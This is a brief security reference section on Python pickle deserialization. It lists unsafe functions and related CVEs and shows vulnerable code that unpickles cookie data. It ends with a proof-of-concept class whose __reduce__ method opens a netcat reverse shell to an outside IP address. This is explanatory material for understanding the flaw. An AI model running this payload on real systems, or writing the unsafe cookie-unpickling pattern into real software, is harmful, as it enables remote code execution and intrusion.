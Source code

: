 #### 3.1. Dangerous functions
```
pickle.load()
pickle.loads()
cPickle.load()
cPickle.loads()
```


#### 3.2. User-input
- arbitrary attributes
- `__reduce__()`


#### 3.3. Serialization in Python
```
class User:
	def __init__(self):
		self.user_id = None

user = User()
user.user_id = 1
print(pickle.dumps(user))
```


#### 3.4. CVEs
- `CVE-2015-0692`: Cisco Web Security Appliance Code Execution
- `CVE-2014-3539`: Rope for Python Remote Code Execution
- `CVE-2014-0485`: S3QL pickle() Code Execution


#### 3.5. Unsafe `pickle` usage

Vulnerable code:
```
data_object = pickle.loads(urlsafe_base64_decode(request.COOKIES.get('data')))
```

PoC exploit:
```
class POC(object):
	def __reduce__(self):
		command = "nc 10.10.10.11 9999 -e /bin/bash"
		return (os.system, (command,))
```
